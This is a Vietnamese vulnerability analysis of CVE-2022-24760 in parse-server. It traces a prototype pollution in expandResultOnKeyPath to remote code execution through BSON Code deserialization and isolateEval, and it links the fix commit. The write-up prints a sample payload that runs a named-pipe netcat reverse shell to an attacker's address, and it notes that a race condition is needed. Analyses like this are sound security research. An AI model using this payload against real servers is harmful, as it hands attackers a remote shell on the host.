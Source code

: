 ### [CVE-2022-24760](https://github.com/tuo4n8/CVE-2022-24760-Analysis)

---

### flow

![image-20220331114046018](take-note.assets/image-20220331114046018.png)

![image-20220331114258164](take-note.assets/image-20220331114258164.png)

- Default không cần key để thêm xóa sửa các class vào db

![image-20220331115258271](take-note.assets/image-20220331115258271.png)

---

### Diff commit

https://github.com/parse-community/parse-server/commit/886bfd7cac69496e3f73d4bb536f0eec3cba0e4d

![image-20220331132344135](take-note.assets/image-20220331132344135.png)

- Prototype pollution xảy ra ở hàm `expandResultOnKeyPath` 

```
DatabaseController.js
	sanitizeDatabaseResult
		-> expandResultOnKeyPath
```

- `sanitizeDatabaseResult` được sử dụng khi `add` và `update` class mới. Tuy nhiên để prototype được phải thõa mãn điều khiện khi keyUpdate `__op` thuộc `['Add', 'AddUnique', 'Remove', 'Increment']`
- Do đó, các value prototype chỉ có thể là `array` hoặc là `number` 
  - ![image-20220331132813075](take-note.assets/image-20220331132813075.png)
  - ![image-20220331132823843](take-note.assets/image-20220331132823843.png)

- sample resquest like:

![image-20220331133133587](take-note.assets/image-20220331133133587.png)

### Sink exploit for RCE

- Trước khi lưu dữ liệu trên DB, luồng dữ liệu sẽ được `serialize` qua thư viện BSON, khi _bsontype là `Code` thì sẽ tiến hành `serializeCode` 

![image-20220331133328243](take-note.assets/image-20220331133328243.png)

​								`parse-server-4.10.6/node_modules/bson/lib/bson/parser/serializer.js:762`

- Sau đó, dữ liệu sẽ được deserialize để thao tác đi đến sink:

![image-20220331145339371](take-note.assets/image-20220331145339371.png)

![image-20220331145403962](take-note.assets/image-20220331145403962.png)

![image-20220331145421339](take-note.assets/image-20220331145421339.png)

- Sử dụng prototype pollution để pollute `options['evalFunctions']` -> bypass đến hàm `isolateEval`
- Payload sample

```
"_bsontype":"Code","code":"asdasd;require('child_process').exec('rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f')"
```

- Do luồng thực thi hàm `expandResultOnKeyPath` đến sau khi deserilize nên cần thực hiện race condtion liên tục để khi đến `isolateEval` có thể trigger được

![image-20220331145825647](take-note.assets/image-20220331145825647.png)


